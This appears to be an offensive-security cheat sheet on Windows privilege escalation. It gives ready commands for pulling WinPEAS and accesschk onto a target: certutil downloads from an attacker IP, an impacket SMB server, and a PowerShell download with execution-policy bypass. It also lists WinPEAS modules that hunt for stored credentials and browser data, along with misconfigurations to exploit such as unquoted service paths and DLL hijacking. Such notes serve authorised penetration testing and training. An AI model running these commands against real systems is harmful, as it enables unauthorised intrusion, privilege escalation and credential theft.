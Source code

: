 #### Via certutil
```powershell
certutil.exe -urlcache -f http://192.168.x.x/winPEASx64.exe c:/tools/winPEASx64.exe
```

accesschk
```powershell
certutil.exe -urlcache -f http://192.168.x.x/accesschk64.exe c:/tools/accesschk64.exe
```

#### Via Samba shares

Serving the file on kali
```sh
sudo impacket-smbserver TMP /var/www/html/
```

Receiving the file on Windows
```powershell
copy \\192.168.x.x\TMP\winPEASx64.exe .   
```

### Misconfigurations

Download and Run WinPEAS from the releases page and enjoy the show (takes some time)
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
https://github.com/carlospolop/PEASS-ng/releases

One liner web download 
```powershell
powershell -ep bypass -Command "Invoke-WebRequest -Uri 'https://github.com/carlospolop/PEASS-ng/releases/download/20231105-d387d97f/winPEASx64.exe' -OutFile 'winPEASx64.exe'"
```

WinPEAS options for speed
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search generic files that can contains credentials
        fileanalysis         Search specific files that can contains credentials and for regexes inside files
        eventsinfo           Display interesting events information

1. Insecure Service Properties
2. Unquoted Service Path
3. Weak Registry Permissions
4. Insecure Service Executables
5. DLL Hijacking

Running AccessChk - multi user
```powershell
accesschk64.exe -accepteula -uws "C:\Users"
```
